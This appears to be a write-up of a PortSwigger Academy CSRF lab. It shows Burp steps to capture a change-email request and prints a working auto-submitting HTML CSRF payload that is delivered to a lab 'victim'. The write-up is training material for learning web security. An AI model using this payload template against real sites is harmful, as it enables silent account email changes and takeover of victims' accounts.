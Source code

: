 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/cf0298e2-f801-4dff-ad82-1ba2a4e6362b)

## Solution :

Open Burp's browser and log in to your account using `wener:peter`.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/229bd2c6-3300-41f5-93fd-6fbc35cb0844)

Submit the "Update email" form, and find the resulting request in your Proxy history.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d97428f5-cb93-4973-afca-3ab57db09ce9)

Send it repeter

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/47762557-b59f-45d2-ac28-6c94c3b660e8)

If you're using Burp Suite Professional, right-click on the request and select `Engagement tools` / `Generate CSRF PoC`.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/29946009-800f-4c8f-a34f-1b76714950ce)

Enable the option to include an auto-submit script and click "Regenerate".and then i changed the email from `cyber` to `ananthan`. 

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/8a87f879-219c-4e16-8006-331c2308d3cf)

geneted the payload.

```html
<html>

  <!-- CSRF PoC - generated by Burp Suite Professional -->

  <body>

    <form action="https://0adb002a04fee11e80857b2a008500da.web-security-academy.net/my-account/change-email" method="POST">

      <input type="hidden" name="email" value="ananthan&#64;gmail&#46;com" />

      <input type="submit" value="Submit request" />

    </form>

    <script>

      history.pushState('', '', '/');

      document.forms[0].submit();

    </script>

  </body>

</html>

```
Go to the exploit server, paste your exploit HTML into the "Body" section, and click "Store".

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/794f0017-f67d-4b48-9f69-8e88754ddd9b)

To verify that the exploit works, try it on yourself by clicking `"View exploit"` and then check the resulting HTTP request and response.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/90ee76e1-0626-4cc8-b262-6b5913e85db3)

we can that email has changed .Now Click `"Deliver to victim"` and solve the lab.


![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d4a2b6e7-6a47-471c-b936-8492ff6f491d)

